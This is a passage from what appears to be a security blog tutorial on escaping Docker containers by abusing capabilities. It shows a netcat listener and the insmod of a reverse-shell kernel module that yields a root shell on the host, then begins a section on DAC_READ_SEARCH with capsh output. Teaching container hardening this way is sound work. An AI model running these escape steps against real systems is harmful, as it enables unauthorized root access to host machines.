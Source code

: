 You should now have two files:
```
root@3a8315527c66:/home/test# ls
Makefile  reverse-shell.c
```
Compile the kernel module:
```
root@3a8315527c66:/home/test# make
```
Before we insert the kernel module start a listener in another terminal and make sure this session is also in the docker container.
```
root@3a8315527c66:# nc -nlvp 1337
listening on [any] 1337 ...
```

Remember the chapter [With great power comes great responsibility](https://ch1mp3y.github.io/posts/Docker/#with-great-power-comes-great-responsibility)? The container shares the kernel with the host. 
So if we insert the kernel module it is going to be shared with the host as well. The kernel module that we have just created will use the usermodehelper
to create a reverse shell connection process from the userspace of the Docker host machine.

To insert the module we need to run insmod as shown below: 
```
root@3a8315527c66:/home/test# insmod reverse-shell.ko
```
Awesome! As you can see below we now have a connection to the host machine **root@linux-box** 
```
root@3a8315527c66:# nc -lvlp 1337
listening on [any] 1337 ...

172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 55010
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@linux-box:/#
```

##### DAC_READ_SEARCH 
DAC stands for Discretionary Access Control, which are basically your standard Linux ownership/permission flags. 
If the container is run with dac_read_search capability, any permission checks for reading files and directories is skipped.
This basically allows us to read files without any restrictions,  including those from the host system.

Lets look at the capabilities again: 
```
root@1a7416577c80:~# capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
```